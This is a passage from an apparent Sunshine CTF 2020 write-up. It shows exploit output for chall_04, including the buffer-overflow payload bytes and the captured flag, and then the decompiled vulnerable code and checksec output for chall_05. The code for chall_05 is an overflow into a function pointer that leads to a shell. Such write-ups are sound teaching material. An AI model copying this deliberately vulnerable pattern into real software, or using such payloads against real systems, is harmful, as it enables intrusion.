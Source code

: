 Output:
```sh
meraxes@pantheon:/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020$ ./chall_04.py REMOTE
[*] '/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020/chall_04'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30004: Done
b'Like some kind of madness, was taking control.\n'
Sending:  b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb7\x05@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
$ cat flag.txt
sun{critical-acclaim-96cfde3d068e77bf}
```

## chall_05
---
```c
void vuln(void)

{
  char local_48 [56];
  code *local_10;
  
  printf("Yes I\'m going to win: %p\n",main);
  fgets(local_48,100,stdin);
  (*local_10)();
  return;
}

void win(void)

{
  system("/bin/sh");
  return;
}
```

As far as the code goes, this challenge is almost the same as the previous one. This binary was compiled differently, however:
```sh
meraxes@pantheon:/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020$ checksec chall_05
[*] '/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020/chall_05'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
